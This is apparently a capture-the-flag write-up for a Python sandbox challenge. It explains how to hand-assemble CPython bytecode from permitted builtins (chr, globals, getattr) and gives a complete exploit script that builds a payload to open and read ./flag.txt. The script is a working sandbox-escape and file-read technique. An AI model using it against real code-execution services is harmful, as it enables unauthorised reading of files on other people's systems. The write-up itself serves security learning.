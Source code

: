 this code is the critical portion. the code's names is "chr", "ord", "globals", "locals", "getattr", "setattr", and consts is from 0 to 255. we need use these to execute our code. if we enter bytecode of globals()\['open'\]('./flag.txt').read(), we can get the flag. but how to enter those bytes?

we can use opcode.py help us to write bytecode. for example ,it we want to execute globals(), we need to write LOAD_NAMES of globals, and then CALL_FUNCTION with no arguments. the bytecode of these instructions, we can find in opcode.py. there also have one tricky problem. we haven't open and ./flag.txt sting. so how to create it? we can use chr function and BINARY_ADD to compute these string. eventually the read is a attribution of object, so we need use getattr to call read. Let's look at the full code.

````python
import sys
def put(string):
	bytecode=b''
	for n,i in enumerate(string):
		bytecode+=b'\x65\x00' #LOAD_NAME 0
		bytecode+=b'\x64'+bytes([ord(i)]) #LOAD_CONST
		bytecode+=b'\x83\x01' #CALL_FUNC 1
		if n!=0:
			bytecode+=b'\x17\x00' #BINARY_ADD
	return bytecode

def attr(payload,attr):
	bytecode=b'\x65\x04' #LOAD_NAME 5
	bytecode+=payload
	bytecode+=put(attr)
	bytecode+=b'\x83\x02' #CALL_FUNC 2
	return bytecode

# globals()
bytecode=b'\x65\x02' #LOAD_NAME 2
bytecode+=b'\x83\x00' #CALL_FUNC 0

# globals()['open']
bytecode+=put("open")
bytecode+=b'\x19\x10' #BINARY_SUBSCR

# globals()['open']('flag.txt')
bytecode+=put("./flag.txt")
bytecode+=b'\x83\x01' #CALL_FUNC 1

# globals()['open']('flag.txt').read()
bytecode=attr(bytecode,"read")
bytecode+=b'\x83\x00'
payload=b'\x61'*32+bytecode

sys.stdout.buffer.write(payload)
````

except the way, we also can use attribution of func_object to get bytecode without write anything. but for get the same environment of the subject. we need to enter some names and consts.
